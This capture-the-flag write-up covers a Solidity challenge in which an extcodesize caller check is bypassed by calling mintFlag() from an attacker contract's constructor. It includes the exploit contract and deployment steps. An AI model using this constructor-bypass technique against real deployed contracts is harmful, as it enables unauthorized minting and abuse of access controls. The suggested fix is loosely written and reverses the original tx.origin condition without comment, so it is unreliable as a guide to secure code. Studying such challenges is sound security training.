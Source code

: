 # Challenge Overview
- Name: Challenge 3
- Category: Smart Contract Exploitation
- Objective: Mint the NFT associated with Challenge 3.

# Contract Code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./INFTFlags.sol";

contract Challenge3 {
    address public nftContract;

    constructor(address _nftContract) {
        nftContract = _nftContract;
    }

    function mintFlag() public {
        require(msg.sender != tx.origin, "Not allowed");

        uint256 x;
        assembly {
            x := extcodesize(caller())
        }

        require(x == 0, "Size not zero");

        INFTFlags(nftContract).mint(tx.origin, 3);
    }
}
```

# Vulnerability Analysis

The mintFlag function has two checks:
1.	Ensures the caller `msg.sender` is not the transaction origin (tx.origin).
2.	Uses assembly to check the `extcodesize(caller())`, ensuring that the caller is not a contract with deployed bytecode.

The intention is to restrict direct EOA calls while also blocking any contract calls. However, the check is bypassable due to the fact that contracts do not have bytecode during their constructor execution phase. Therefore, a contract calling this function from its constructor will pass both checks.

# Exploit Execution

To exploit this vulnerability, we write an attacker contract that calls the mintFlag function in its constructor. During the constructor execution, the contract has no bytecode, so the extcodesize check returns 0, bypassing the restriction.

```solidity
interface IChallenge3 {
    function mintFlag() external;
}

contract Exploit {
    IChallenge3 public target;

    constructor(address _target) {
        target = IChallenge3(_target);
        target.mintFlag();
    }
}
```


## Execution Steps:
1.	Deploy the Exploit contract with the address of the Challenge3 contract.
2.	During the deployment, the constructor calls `mintFlag()` before the contract has any bytecode.
3.	The extcodesize check returns 0, bypassing the restriction.
4.	The NFT is successfully minted.

# Result & Impact

This exploit allows unauthorized users to mint NFTs without the intended restrictions. The lack of a robust access control mechanism can lead to unintended distribution of NFTs, compromising the security and exclusivity of the contract.

# Fix Recommendation

To mitigate this issue:
1.	Use the OpenZeppelin Context utility and validate the caller more securely.
2.	Avoid relying solely on extcodesize for contract detection.
3.	Implement access control mechanisms like whitelisting authorized addresses or checking against a trusted registry.

```solidity
require(msg.sender == tx.origin && !isContract(msg.sender), "Not allowed");

function isContract(address account) internal view returns (bool) {
    uint256 size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

This fix ensures that both EOAs and contract-based attacks are effectively restricted.